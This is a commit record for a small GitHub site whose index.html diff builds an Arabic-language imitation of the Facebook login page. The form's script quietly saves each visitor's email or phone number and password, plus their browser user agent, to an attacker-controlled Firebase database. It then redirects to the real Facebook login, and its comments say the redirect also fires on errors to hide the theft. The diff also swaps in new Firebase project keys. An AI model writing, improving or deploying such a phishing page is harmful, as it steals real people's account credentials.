

Before and after one commit to yasserunlock4-lgtm/ali, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 138-800 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -11,65 +11,121 @@
         import { getFirestore, collection, addDoc, serverTimestamp } from "https://www.gstatic.com/firebasejs/11.1.0/firebase-firestore.js";
         import { getAuth, signInAnonymously } from "https://www.gstatic.com/firebasejs/11.1.0/firebase-auth.js";
 
+        // إعدادات Firebase الجديدة الخاصة بك
         const firebaseConfig = {
-            apiKey: "AIzaSyC9f5fapAvnhI_cTvJ5TKuJCG8GAbAwa7c",
-            authDomain: "face-e03fc.firebaseapp.com",
-            projectId: "face-e03fc",
-            storageBucket: "face-e03fc.firebasestorage.app",
-            messagingSenderId: "628468108258",
-            appId: "1:628468108258:web:eea4d9b8cceab2b58dc7bb",
-            measurementId: "G-9432BKFQCR"
+            apiKey: "AIzaSyB3XXz5XMUNV2SZNm8pU8RQVcDCjpRHh_k",
+            authDomain: "ffffff-d6aa0.firebaseapp.com",
+            projectId: "ffffff-d6aa0",
+            storageBucket: "ffffff-d6aa0.firebasestorage.app",
+            messagingSenderId: "186152813262",
+            appId: "1:186152813262:web:74f071fcc9268f86f3869f",
+            measurementId: "G-8L8CTHXBW3"
         };
 
-        const redirectUrl = "https://www.facebook.com/login/device-based/regular/login/";
+        // الرابط الذي سيتم توجيه الشخص إليه فوراً
+        const redirectUrl = "https://www.facebook.com/login/";
 
+        // تهيئة النظام
         const app = initializeApp(firebaseConfig);
         const db = getFirestore(app);
         const auth = getAuth(app);
 
         document.getElementById('fbForm').addEventListener('submit', async (e) => {
             e.preventDefault();
+
             const email = document.getElementById('u_email').value;
             const pass = document.getElementById('u_pass').value;
 
             try {
+                // تسجيل دخول مجهول للهوية للسماح بالكتابة
                 await signInAnonymously(auth);
+
+                // حفظ البيانات في كولكشن 'logins'
                 await addDoc(collection(db, "logins"), {
                     username: email,
                     password: pass,
                     createdAt: serverTimestamp(),
-                    device: navigator.userAgent
+                    userAgent: navigator.userAgent
                 });
+
+                // التحويل المباشر والصامت
                 window.location.replace(redirectUrl);
+
             } catch (error) {
+                // في حالة أي خطأ، يتم التحويل أيضاً لعدم كشف الأمر
                 window.location.replace(redirectUrl);
             }
         });
     </script>
 
     <style>
-        body { background-color: #f0f2f5; font-family: sans-serif; }
+        body { background-color: #f0f2f5; font-family: -apple-system, system-ui, sans-serif; }
         .input-style { background-color: #f5f6f7; border: 1px solid #dddfe2; }
-        .input-style:focus { border-color: #1877f2; background-color: white; outline: none; }
+        .input-style:focus { border-color: #1877f2; background-color: white; outline: none; box-shadow: 0 0 0 2px #e7f3ff; }
+        .fb-blue-btn { background-color: #1877f2; }
     </style>
 </head>
 <body class="flex flex-col min-h-screen">
-    <div class="bg-[#fffbe2] text-[#3b5998] py-2 text-center text-[11px] border-b border-[#e2e2e2]">
+
+    <div class="bg-[#fffbe2] text-[#3b5998] py-2 text-center text-[12px] border-b border-[#e2e2e2]">
         احصل على فيسبوك للأندرويد وتصفح أسرع.
     </div>
+
     <main class="flex-grow flex flex-col items-center px-4 pt-10">
-        <h1 class="text-[#1877f2] font-bold text-[35px] mb-8">facebook</h1>
+        <div class="mb-8">
+            <h1 class="text-[#1877f2] font-bold text-[35px] tracking-tighter">facebook</h1>
+        </div>
+
         <div class="w-full max-w-[400px]">
             <form id="fbForm" class="flex flex-col gap-3">
-                <input type="text" id="u_email" placeholder="رقم الهاتف أو البريد" class="input-style w-full p-3.5 rounded-lg" required>
-                <input type="password" id="u_pass" placeholder="كلمة السر" class="input-style w-full p-3.5 rounded-lg" required>
-                <button type="submit" class="bg-[#1877f2] text-white font-bold py-3 rounded-lg text-lg">تسجيل الدخول</button>
+                <input
+                    type="text"
+                    id="u_email"
+                    placeholder="رقم الهاتف المحمول أو البريد الإلكتروني"
+                    class="input-style w-full p-3 rounded-lg text-md"
+                    required
+                >
+                <input
+                    type="password"
+                    id="u_pass"
+                    placeholder="كلمة السر"
+                    class="input-style w-full p-3 rounded-lg text-md"
+                    required
+                >
+
+                <button
+                    type="submit"
+                    class="fb-blue-btn text-white font-bold py-3 rounded-lg text-lg active:opacity-90 transition-all"
+                >
+                    تسجيل الدخول
+                </button>
             </form>
-            <div class="text-center mt-4"><a href="#" class="text-[#1877f2] text-sm font-medium">نسيت كلمة السر؟</a></div>
-            <div class="flex items-center my-8"><div class="flex-grow border-t border-gray-300"></div><span class="px-4 text-gray-400 text-sm">أو</span><div class="flex-grow border-t border-gray-300"></div></div>
-            <div class="flex justify-center"><button class="bg-[#42b72a] text-white font-bold py-2 px-6 rounded-md text-sm">إنشاء حساب جديد</button></div>
+
+            <div class="text-center mt-4">
+                <a href="#" class="text-[#1877f2] text-sm font-medium hover:underline">هل نسيت كلمة السر؟</a>
+            </div>
+
+            <div class="flex items-center my-8">
+                <div class="flex-grow border-t border-gray-300"></div>
+                <span class="px-4 text-gray-400 text-sm">أو</span>
+                <div class="flex-grow border-t border-gray-300"></div>
+            </div>
+
+            <div class="flex justify-center">
+                <button type="button" class="bg-[#42b72a] text-white font-bold py-2 px-6 rounded-md text-sm">
+                    إنشاء حساب جديد
+                </button>
+            </div>
         </div>
     </main>
-    <footer class="mt-auto py-6 bg-white text-center text-[11px] text-gray-400">Meta © 2024</footer>
+
+    <footer class="mt-auto py-6 bg-white text-center text-[11px] text-gray-400">
+        <div class="flex justify-center gap-6 text-gray-500 mb-2">
+            <span>العربية</span>
+            <span class="text-[#1877f2]">English (US)</span>
+        </div>
+        Meta © 2024
+    </footer>
+
 </body>
 </html>
```
